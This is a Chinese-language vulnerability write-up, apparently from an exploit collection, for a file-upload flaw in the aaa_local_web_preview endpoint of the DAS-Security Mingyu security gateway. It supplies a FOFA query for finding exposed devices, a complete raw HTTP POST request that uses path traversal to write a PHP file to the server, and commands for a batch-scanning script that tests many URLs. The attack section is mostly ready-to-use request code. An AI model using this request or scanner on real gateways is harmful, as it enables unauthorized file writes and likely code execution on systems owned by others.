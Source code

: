 # 安恒明御安全网关aaa_local_web_preview文件上传漏洞

### 1.漏洞描述

安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品aaa_local_web_preview端点存在文件上传漏洞。

### 2.fofa语法

```
title=="明御安全网关"
```

### 3.漏洞复现

```
POST /webui/?g=aaa_local_web_preview&name=123&read=0&suffix=/../../../test.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=849978f98abe41119122148e4aa65b1a
Accept-Encoding: gzip
Content-Length: 196

--849978f98abe41119122148e4aa65b1a
Content-Disposition: form-data; name="123"; filename="test.php"
Content-Type: text/plain

This page has a vulnerability
--849978f98abe41119122148e4aa65b1a--
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719831199502-aa3aee91-716a-417e-9c21-deee55efd91c.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

浏览器拼接路径访问

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719831251380-1333e188-541f-475d-9d69-77de38a79222.png?x-oss-process=image%2Fformat%2Cwebp)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

